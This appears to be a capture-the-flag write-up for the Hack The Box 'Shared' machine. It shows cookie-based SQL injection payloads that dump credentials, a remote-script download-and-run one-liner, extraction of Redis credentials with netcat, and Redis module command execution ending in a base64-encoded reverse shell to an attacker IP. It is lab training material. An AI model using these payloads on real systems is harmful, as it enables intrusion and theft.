 Hack the box:Shared

***Enumeration***

Nmap scan
```
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18
```
Domain && subdomain

**http://shared.htb**

**http://checkout.shared.htb**

vuln in cookie

cookie **"custom_cart=%7B%2253GG2EF8%22%3A%223%22%7D"**

decode cookie value **"custom_cart={"53GG2EF8":"3"}"**

***FootHold***

union based blind sql injection

referal **https://infosecwriteups.com/healing-blind-injections-df30b9e0e06f**


payload
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(user()),3-- -":"3"}
```
database username **checkout@localhost**

Database Name Enumeration
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),3-- -":"3"}
```
**information_schema,checkout**

Tables from checkout;
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA = 'checkout'),3-- -":"3"}
```
**user,product**

Columns from user;
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(TABLE_NAME,COLUMN_NAME) from INFORMATION_SCHEMA.COlUMNS where TABLE_SCHEMA = 'checkout'),3-- -":"3"}
```
**user.id,user.username,user.password,product.id,product.code,prodcut.price**

username and password from user
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(username) from checkout.user),3-- -":"3"}
```
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(password) from checkout.user),3-- -":"3"}
```
**james_mason:fc895d4eddc2fc12f995e18c865cf273**

crack the hash using hashcat

ssh cred => james_mason:Soleil101

connect to SSH as james_mason

***Low privilege user james_mason to dan_smith***

their is a cronjob running to use ipython 

recent cve of ipython **https://github.com/advisories/GHSA-pq7m-3gw7-gq5x**

for exploiting the ipython we create a shell script to automate some purpose

```
wget http://10.10.16.19/script.sh && chmod +x script.sh && bash script.sh
```

***Privilege escalation***

The server has running redis as root but we cannot connect the server without creds so we need to
find the cred to access the server

let's check the user's and groups related files
```
find / -group sysadmin 2>/dev/null
```
we found a intersting excutable file in /usr/local/bin

It is a excutable binary to connect the redis server as localy and automaticly login using the auth creds and run a simple redis command info and get the result to us

from their we know in the excutable has the auth cred. copy the binary to our local machine
start anlayzing it
```
scp -i file.key dan_smith@ip:/usr/local/bin/redis_connector_dev redis_connector_dev
```
run the binary on localy and setup a netcat listion on port 6379
```
nc -lv localhost 9379
```
after runing the binary we get the connection on netcat and got the creds

redis => **"auth:F2WHqJUz2WEz=Gqq"**

after gain access the redis server using the auth creds we create a custom module for runing the os commands
referal https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis

**Exploit**
```
auth F2WHqJUz2WEz=Gqq

MODULE  LOAD /dev/shm/redis/module.so

module list

system.exec "cat /root/root"

system.exec "echo -n 'YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE2LjEwLzkwMDEgICAwPiYxIA==' | base64 -d |bash"
```